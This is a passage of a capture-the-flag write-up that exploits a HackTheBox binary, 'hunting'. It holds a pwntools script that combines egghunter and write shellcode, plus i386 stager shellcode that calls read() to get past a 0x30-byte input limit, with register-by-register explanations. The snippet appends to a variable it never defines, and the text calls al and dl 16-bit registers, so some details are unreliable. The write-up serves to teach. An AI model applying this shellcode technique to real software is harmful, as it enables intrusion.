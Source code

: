 Nice, we have the flag in `ebx` register, so, we can now just do 

```asm
write(1, $ebx, 0x100)
```

where `ebx` is a memory pointer to the flag.

---

### The Length Issue


Okay, so at this time I did

```py
from pwn import *

context.arch = "i386"

p = process("./hunting")
shellcode += asm(shellcraft.egghunter(b"HTB{", 0x50000000))
shellcode += asm(shellcraft.write(1, "ebx", 36))
pause()
p.send(shellcode)
p.interactive()
```

But I forgot that the length allowed was only `0x30` which was pretty much taken by the egghunter shellcode, so we need something to act as a stager shellcode. So, to do work through this, what we can do is call `read` to make the binary read large amount of input.

The shellcode would be as follows:-

```asm
    xor eax, eax
	mov al, 3
	xor ebx, ebx
	mov dl, 0xff
	int 0x80
```

To understand the shellcode, we `xor`'d the `eax` to make it `0` then we move `3` to the lower 16 bit of the register `eax` pointed by `al`, then we `xor`'d `ebx` register which will make it `0` as well, after that we move `0xff` to the lower 16 bits of the `edx` pointed by `dl`, then we do `int 0x80` to do a syscall.

So, here:-

```asm
read(ebx, ecx, edx)
```

Where `ebx` points to the `fd`, as it has been XOR'd it contains `0` which the `fd` of the `stdin` then `ecx` when the time of the execution of the shellcode pointes to the buffer itself, so we don't manipulate it's value, next, `edx` contains the size which is `0xff`, more than enough for us.

> `eax` points to the syscall number, read syscall number is 3 and the `int 0x80` is used to tell the program we are making syscall, since `eax` is `3` the `read` will be made.
